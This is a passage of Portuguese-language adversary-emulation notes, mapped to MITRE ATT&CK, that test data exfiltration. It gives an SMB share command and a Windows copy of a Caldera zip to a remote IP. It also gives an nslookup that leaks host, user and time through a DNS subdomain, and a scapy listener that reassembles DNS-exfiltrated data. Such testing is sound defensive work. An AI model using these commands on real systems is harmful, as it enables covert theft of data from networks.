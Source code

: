   - SMB (Porta: `445`) [[`Exfiltration:T1048:Exfiltration Over Alternative Protocol`](https://attack.mitre.org/techniques/T1048/)]
    - Executar no servidor: 
    ```bash
    cd ~/Downloads/tools/ICMP-TransferTools/files && smbserver.py -smb2support uploads ./uploads
    ```

    - Executar no cliente: 
    ```cmd
    REM LAN
    type %tmp%\caldera\exfiltrate_caldera.zip > \\10.10.64.230\uploads\exfiltrate_caldera.zip
    ```

  - DNS (Porta: `53`) [[`Command-and-control:T1071.004:Application Layer Protocol: DNS`](https://attack.mitre.org/techniques/T1071/004/)]
    - Checagem simples 
      - Executar no servidor: 
        ```bash
        tcpdump -i any udp and port 53
        ```
      - Executar no cliente:
        ```cmd
        REM LAN
        nslookup %COMPUTERNAME%-%USERNAME%-%DATE:~6,4%%DATE:~3,2%%DATE:~0,2%%TIME:~0,2%%TIME:~3,2%%TIME:~6,2%.mydnsexfil.com 10.10.64.230
        ```

- Teste de exfiltracao (`powershell`)
  - DNS (Porta: `53`) [[`Exfiltration:T1048:Exfiltration Over Alternative Protocol`](https://attack.mitre.org/techniques/T1048/)]
    - Checagem avançada
      - Executar no servidor:
        ```python
        import re
        import sys
        from scapy.all import *

        data = []

        def dns_callback(pkt):
            global data
            if pkt.haslayer(DNSQR):
                data_tmp = pkt[DNSQR].qname.decode().split('.')[0]
                if 'END' in data_tmp:
                    output = ''.join(data)
                    sys.stdout.write(f'\r{output}\n')
                    exit()
                if re.search('^\d+L\w+', data_tmp):
                    if data_tmp.split('L')[1] not in data:
                        data.append(data_tmp.split('L')[1])
                        sys.stdout.write(f'\r{data_tmp}')

        if len(sys.argv) >= 2:
            IPAddr = sys.argv[1]
            sniff(filter=f"udp and port 53 and src host {IPAddr}", prn=dns_callback)
        else:
            print(f'Usage: {sys.argv[0]} Src_IP_Addr')
        ```
        